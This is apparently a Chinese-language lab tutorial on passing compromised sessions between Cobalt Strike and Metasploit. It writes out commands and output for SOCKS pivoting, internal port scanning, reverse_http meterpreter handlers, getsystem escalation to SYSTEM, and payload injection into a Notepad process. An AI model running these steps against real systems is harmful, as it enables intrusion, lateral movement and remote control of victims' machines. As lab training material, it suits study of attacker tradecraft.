









## 0.环境

| 名称           | IP              |
| ------------ | --------------- |
| metasploit   | 192.168.1.100   |
| 靶机           | 192.168.1.101   |
|              | 192.168.100.155 |
| CobaltStrike | 192.168.1.103   |


## 1 CobaltStrike会话传递给metasploit。

### 1.1 使用CobaltStrike的Socks代理

+ 先使用CobaltStrike生产一个反弹shell。

+ 等待连接完成已经按照下图步骤开启Socks代理。



+ 设置Socks端口这里我使用默认。



+ 代理开启成功。



+ 获取metasploit代理配置。



+ 复制代理配置。


+ 在metasploit输入代理配置信息之后就可以通过CobaltStrike代理使用metasploit的功能。

```bash
msf6 > setg Proxies socks4:192.168.1.103:14265
Proxies => socks4:192.168.1.103:14265
```

+ 使用metasploit的端口扫描。

```bash
msf6 > use auxiliary/scanner/portscan/tcp 
msf6 auxiliary(scanner/portscan/tcp) > set rhosts 192.168.100.1/24
rhosts => 192.168.100.1/24
msf6 auxiliary(scanner/portscan/tcp) > set ports 80,888,8080,8888
ports => 80,888,8080,8888
msf6 auxiliary(scanner/portscan/tcp) > set threads 20
threads => 20
msf6 auxiliary(scanner/portscan/tcp) > exploit 
[*] 192.168.100.1/24:     - Scanned  36 of 256 hosts (14% complete)
[*] 192.168.100.1/24:     - Scanned  57 of 256 hosts (22% complete)
[*] 192.168.100.1/24:     - Scanned  80 of 256 hosts (31% complete)
[*] 192.168.100.1/24:     - Scanned 118 of 256 hosts (46% complete)
[+] 192.168.100.131:      - 192.168.100.131:8888 - TCP OPEN
[*] 192.168.100.1/24:     - Scanned 140 of 256 hosts (54% complete)
[*] 192.168.100.1/24:     - Scanned 160 of 256 hosts (62% complete)
[*] 192.168.100.1/24:     - Scanned 180 of 256 hosts (70% complete)
[*] 192.168.100.1/24:     - Scanned 217 of 256 hosts (84% complete)
[*] 192.168.100.1/24:     - Scanned 239 of 256 hosts (93% complete)
[*] 192.168.100.1/24:     - Scanned 256 of 256 hosts (100% complete)
[*] Auxiliary module execution completed
```

### 1.2 将CobaltStrike的会话传递到metasploit。

+ msf配置监听器。

```bash
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_http
payload => windows/meterpreter/reverse_http
msf6 exploit(multi/handler) > set lhost 192.168.1.100
lhost => 192.168.1.100
msf6 exploit(multi/handler) > exploit 
[*] Started HTTP reverse handler on http://192.168.1.100:8080
```

+ 选择监听器。



+ 创建一个Foreign HTTP监听器。这里的地址和端口是metasploit设置的信息。



+ 选择新建会话。



+ 选择刚才创建的监听器。



+ 会话传递成功。

```bash
msf6 exploit(multi/handler) > exploit 

[*] Started HTTP reverse handler on http://192.168.1.1008080
[!] http://192.168.1.100:8080 handling request from 192.168.1.101; (UUID: 9c8ocpoi) Without a database connected that payload UUID tracking will not work!
[*] http://192.168.1.100:8080 handling request from 192.168.1.101; (UUID: 9c8ocpoi) Staging x86 payload (176220 bytes) ...
[!] http://192.168.1.100:8080 handling request from 192.168.1.101; (UUID: 9c8ocpoi) Without a database connected that payload UUID tracking will not work!
[*] Meterpreter session 1 opened (192.168.1.100:8080 -> 127.0.0.1 ) at 2022-04-25 15:02:37 +0800

meterpreter > getuid
Server username: WIN-HHP4Q76IAO9\Administrator
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

## 2 metasploit会话传递给CobaltStrike。

+ 这里我使用CobaltStrike刚才传递到metasploit会话，现在我把metasploit的会话传递回CobaltStrike。

+ 使用metasploit中的`windows/local/payload_inject`模块。这里设置ip和端口是CobaltStrike的test监听器。

```bash
meterpreter > bg
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use exploit/windows/local/payload_inject
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/payload_inject) > set payload windows/meterpreter/reverse_http
msf6 exploit(windows/local/payload_inject) > set lhost 192.168.1.103
lhost => 192.168.1.103
msf6 exploit(windows/local/payload_inject) > set lport 4096
lport => 4096
msf6 exploit(windows/local/payload_inject) > set session 1
session => 1
msf6 exploit(windows/local/payload_inject) > exploit 

[-] Handler failed to bind to 192.168.1.103:4096
[*] Started HTTP reverse handler on http://0.0.0.0:4096
[*] Running module against WIN-HHP4Q76IAO9
[*] Spawned Notepad process 9580
[*] Injecting payload into 9580
[*] Preparing 'windows/meterpreter/reverse_http' for PID 9580
[*] Exploit completed, but no session was created.
```

+ 创建成功。


